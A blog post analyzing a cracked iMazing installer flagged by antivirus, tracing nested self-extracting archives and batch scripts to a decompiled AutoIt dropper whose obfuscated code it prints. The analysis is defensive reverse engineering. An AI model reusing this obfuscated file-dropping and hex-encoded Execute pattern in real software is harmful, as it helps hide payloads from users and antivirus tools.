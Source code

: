 ```yaml
---
title: Analyze iMazing_TNTCracked
description: Analyze iMazing_TNTCracked
date: 2021-09-27 13:56:01+0800
categories:
    - Analyze
tags:
    - Analyze
    - Virus
    - Windows
---
```


Source: [Moeomu's blog](/posts/analyze-imazing_tntcracked/)

## Origin

I wanted to find a backup of AIS Assistant, found iMazing, and got excited to find a cracked version of iMazing for TNT, downloaded from [this link](https://www.tntmac.com/tag/imazing-for-mac-crack/) for Windows but found it was Windows 11 comes with antivirus software, so I got interested in analyzing this cracked version

## Analysis

### 1. Overview

![Decompression](https://i.loli.net/2021/10/11/o4TszgPHIcYji2G.png)

- As shown in the picture, after decompression is an official installation package and a `Create__Fix.exe`, it is this file is reported as poison, so start the investigation

### 2、Create__Fix.exe

![zip](https://i.loli.net/2021/10/11/LXSnr6B7TtgvuRK.png)

- drag into the DIE, see this file seems to be a zip package, it will be decompressed, the contents are shown in the figure

![Another zip package](https://i.loli.net/2021/10/11/lfKRim4QrjzaUYP.png)

- There is a `Fix.exe` and a `iMazing_fix.bat`, but this bat open is garbled, use C32Asm to see the contents of the hexadecimal format, as shown in the figure

![clear](https://i.loli.net/2021/10/11/cxYuqhaTLU9vElP.png)

- This is very clear, this `iMazing_fix.bat` run process is as follows
  - The first step, run `Fix.exe`, the parameters are `pt147147` and `-d%dir%`, the way this is written makes me feel that this is a compressed file, it seems to be true
  - The second step, wait a second
  - Step 3, delete `Fix.exe` and `iMazing_fix.bat`
- I can't help but wonder what makes it look like lasagna, layer after layer without end
- As you can see in the picture, it is another RAR file, not surprisingly

![No way again](https://i.loli.net/2021/10/11/F9l2jZUYENfCuHz.png)

### 3, Fix.exe

- Unzip, need password, I guess the password is `t147147`, oh guess right, the TNT team did not customize their own decompression tools, using WinRAR sfx self-extraction module to pass the reference decompression, decompression as shown in the picture

![Another decompression](https://i.loli.net/2021/10/11/lm6yzf5asNHcRbS.png)

- The decompressed file is divided into three, the bat script is still encrypted, use the hex editor again to read it
- After DIE analysis, `data.bin` is an executable program, rename it to `data.exe`
- After DIE analysis, `v1` is a binary file, temporarily unrecognizable

### 4、Created_By_TNT_Team.bat

![Created_By_TNT_Team.bat](https://i.loli.net/2021/10/11/GmCj7cvfk8N62WB.png)

- As shown in the picture, this script file does the following actions
  - Step 1, clean the screen
  - Step 2, turn off the display back
  - Step 3, run `data.bin`, an executable program with the parameter `v1`
  - Step 4, delete `v1`, `data.bin`, `Created_By_TNT_Team.bat`

### 4. data.exe and v1

- This `data.exe` is very clear after renaming, it is the script runner of AutoIt3, then `v1` is unsurprisingly an AutoIt3 script, the suffix should be `a3x`
- `v1` is the compiled au3 script, I found some decompilers on GitHub, for example [UnAutoIt](https://github.com/x0r19x91/UnAutoIt)
- As you can see, after unpacking, an `iMazing.exe` is released from v1, along with a script that is extremely obfuscated and almost unreadable
- The modified `iMazing.exe` also comes with the original digital signature, although it is no longer valid, it looks like it will locally modify the `iMazing.exe`, should be considered a file patch, but it seems that the hash has not changed ...

![extra](https://i.loli.net/2021/10/11/9yFOsWujGwPJmQ6.png)

> Here's some useful code from the decompile

```AutoIt3
Func a2f00001b21_()
    For $ax0x0xa = 0x1 To 0x5
        Local $a2f00001b21sz_ = a2f00001b21x_()
        FileInstall("d3c0ef51c80f467bc9002bbf93fcb10d0c917dbaae819ccd925e2f8902d3c9c5229702964c538605098cce34d2e9cc90ce0618992ba26caea18b5b5ccd9dd0acf02370c4bc004868283b8067c8309862" & _
            "cf2f70d92252928d02af9b1c7d80c3303522b08f2", $a2f00001b21sz_, 0x1)
        Global $a2f00001b21, $os = Execute(BinaryToString("0x457865637574652842696E617279746F737472696E67282730783435373836353633373537343635323834323639364536313732373937343646373337343732363936453637323832373330373833" & _
            "3533333337333433373332333633393336343533363337333533333337333033363433333633393337333433323338333433363336333933363433333633353335333233363335333633313336333433" & _
            "3233383332333433343331333333323334333633333330333333303333333033333330333333313334333233333332333333313337333333373431333534363332333933323433333233373337343333" & _
            "33333333333338333333373334333933323337333234333333333133323339323732393239272929"))
        If IsArray($os) And $os[0x0] >= 0x46da Then ExitLoop
        Sleep(0xa)
    Next
    Execute(BinaryToString("0x457865637574652842696E617279746F737472696E67282730783435373836353633373537343635323834323639364536313732373937343646373337343732363936453637323832373330373833" & _
        "3333313332343233343336333633393336343333363335333433343336333533363433333633353337333433363335333233383332333433343331333333323334333633333330333333303333333033" & _
        "3333303333333133343332333333323333333133373333333734313335343633323339323732393239272929"))
EndFunc    ; -> a2f00001b21_

Func a2f00001b21x_()
    Local $a2f00001b21s1_ = a2f00001b21("4054656D70446972"), $a2f00001b21s3_ = a2f00001b21("31"), $a2f00001b21s4_ = a2f00001b21("5c"), $a2f00001b21s5_ = a2f00001b21("5c"), $a2f00001b21s6_ = a2f00001b21("37"), $a2f00001b21s8_ = a2f00001b21("3937"), $a2f00001b21s9_ = a2f00001b21("313232"), $a2f00001b21s7_ = a2f00001b21("31"), $a2f00001b21sa_
    Local $a2f00001b21s2_ = Execute($a2f00001b21s1_)
    If StringRight($a2f00001b21s2_, Number($a2f00001b21s3_)) <> $a2f00001b21s4_ Then $a2f00001b21s2_ = $a2f00001b21s2_ & $a2f00001b21s5_
    SRandom(Number(StringRight(TimerInit(), 0x4)))
    Do
        $a2f00001b21sa_ = ''
        While StringLen($a2f00001b21sa_) < Number($a2f00001b21s6_)
            $a2f00001b21sa_ = $a2f00001b21sa_ & Chr(Random(Number($a2f00001b21s8_), Number($a2f00001b21s9_), Number($a2f00001b21s7_)))
        WEnd
        $a2f00001b21sa_ = $a2f00001b21s2_ & $a2f00001b21sa_
    Until Not FileExists($a2f00001b21sa_)
    Return ($a2f00001b21sa_)
EndFunc    ; -> a2f00001b21x_

Func a2f00001b21($a2f00001b21)
    Local $a2f00001b21_
    For $x = 0x1 To StringLen($a2f00001b21) Step 0x2
        $a2f00001b21_ &= Chr(Dec(StringMid($a2f00001b21, $x, 0x2)))
    Next
    Return $a2f00001b21_
EndFunc    ; -> a2f00001b21
```

## Conclusion

- It should do nothing but release an executable file, but the way this is released is really strange
- It finally released `iMazing.exe` is not a cracked version, things are even more strange
